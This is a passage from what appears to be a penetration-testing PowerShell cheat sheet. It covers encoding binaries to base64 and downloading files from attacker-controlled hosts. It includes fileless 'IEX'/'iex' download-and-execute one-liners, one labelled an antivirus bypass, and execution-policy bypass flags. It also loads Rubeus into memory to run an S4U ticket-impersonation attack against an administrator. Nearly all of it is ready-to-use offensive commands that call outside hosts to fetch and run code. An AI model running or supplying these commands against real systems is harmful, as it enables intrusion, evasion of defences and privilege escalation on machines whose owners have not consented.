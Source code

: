 ```
powershell -C "& {$outpath = (Join-Path (pwd) 'out_base64.txt'); $inpath = (Join-Path (pwd) 'file.exe'); [IO.File]::WriteAllText($outpath, ([convert]::ToBase64String(([IO.File]::ReadAllBytes($inpath)))))}"
```
Decode and create our binary file based on our base64 output from above:
```
powershell -C "& {$outpath = (Join-Path (pwd) 'file2.exe'); $inpath = (Join-Path (pwd) 'out_base64.txt'); [IO.File]::WriteAllBytes($outpath, ([convert]::FromBase64String(([IO.File]::ReadAllText($inpath)))))}"
```
#### Downloading files

In PowerShell 2.x:
```
powershell -Command '$WebClient = New-Object System.Net.WebClient;$WebClient.DownloadFile("http://10.0.0.1/path/to/file","C:\path\to\file")'
```  
Can also be dumped into a script:
```
echo $webclient = New-Object System.Net.WebClient > wget.ps1
echo $url = "http://10.0.0.1:4444/file.exe" >> wget.ps1
echo $output = "C:\Windows\Temp\file.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$output) >> wget.ps1
# Execute the script with
powershell wget.ps1 
# or the crazy syntax above  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
In PowerShell 3 and above:
```
powershell -Command 'Invoke-WebRequest -Uri "http://10.0.0.1/path/to/file" -OutFile "C:\path\to\file"'
```
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```
#### Running a Powershell script from remote host (Bypass AV)
Voir [Cheatsheet]( https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/windows/powershell.rst#running-a-powershell-script-from-command-line ).
```
powershell IEX(New-Object Net.Webclient).downloadstring('http://<attacker-ip>:<attacker-port>/script.ps1')
```    
```
powershell -noexit -file "C:\path\to\script.ps1"
```    
Bypass execution policy:
```
powershell -executionPolicy bypass -noexit -file "C:\path\to\script.ps1"
```
Run with arguments:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```
Execute a specific method from an assembly:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

[DC01]: PS>